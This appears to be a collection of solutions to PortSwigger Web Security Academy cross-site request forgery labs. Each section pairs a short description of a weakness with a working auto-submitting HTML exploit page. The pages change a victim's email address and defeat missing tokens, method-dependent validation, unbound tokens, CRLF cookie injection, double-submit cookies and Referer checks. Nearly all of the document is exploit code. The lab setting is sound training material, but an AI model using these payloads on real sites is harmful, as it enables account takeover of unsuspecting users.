 # Cross-site request forgery (CSRF)

## CSRF vulnerability with no defenses
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac641fc01f8852e280239bac003f00dc.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="meme&#64;google&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>


```

## CSRF where token validation depends on request method
*Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.*
```html
<html>
  <body>
    <form action="https://ac821f841ea7fc638025526d00e80028.web-security-academy.net/email/change" method="GET">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Validation of CSRF token depends on token being present
*Some applications correctly validate the token when it is present but skip the validation if the token is omitted.*
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acbd1fc11e01347580292559002c009b.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="root&#64;meme&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

## CSRF where token is not tied to user session
*Some applications do not validate that the token belongs to the same session as the user who is making the request.
Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.*
```html
<html>
  <body>
    <form action="https://ac951fd61fbca61f80cd57e100bf002d.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="nvYjyCnkZg9lxPdk0jUwfsYsM7IGqZP5">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token is tied to non-session cookie
*In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the
same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks,
one for session handling and one for CSRF protection, which are not integrated together.*
```html
<!-- Cookie csrfKey works as session ID here. It's app weakness. -->
<html>
  <body>
    <form action="https://ac131f731e467c88807003ba01eb0021.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="YKm0bbE4NCHbFlmEt77LfeZPzlSLYY5r"/>
      <input type="hidden" name="email" value="test@meme.com" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim.  -->
    <img src="https://ac131f731e467c88807003ba01eb0021.web-security-academy.net//?search=test%0d%0aSet-Cookie:%20csrfKey=kE4no0fY9JeJvK9KSGzoZrIYZ7PTubzQ" onerror="document.forms[0].submit()">
  </body>
</html
```

## CSRF where token is duplicated in cookie
*In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of
tokens that have been issued, but instead duplicate each token within a cookie and a request parameter.
When the subsequent request is validated, the application simply verifies that the token submitted in the
request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defense
against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state.*
```html
<html>
  <body>
    <form action="https://ac251fc31f9c6869805c480f00090062.web-security-academy.net/email/change" method="POST">
      <input required type="hidden" name="csrf" value="myCsrfToken"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim. -->
    <img src="https://ac251fc31f9c6869805c480f00090062.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=myCsrfToken" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF where Referer validation depends on header being present
*Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.*
```html
<html>
  <head>
    <meta name="referrer" content="never">
  </head>
  <body>
    <form action="https://ac341ff21e634bca80a3b4fa00840005.web-security-academy.net/email/change" method="POST">
      <input required type="hidden" name="csrf" value="myCsrfToken"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <img src="1" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF with broken Referer validation
*Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application
simply validates that the Referer contains its own domain name, then the attacker can place the required value
elsewhere in the URL.*
```html
<html>
  <body>
    <form action="https://ac5b1f021ef24bb18010b59d00cf0004.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      history.pushState("", "", "/ac5b1f021ef24bb18010b59d00cf0004.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>
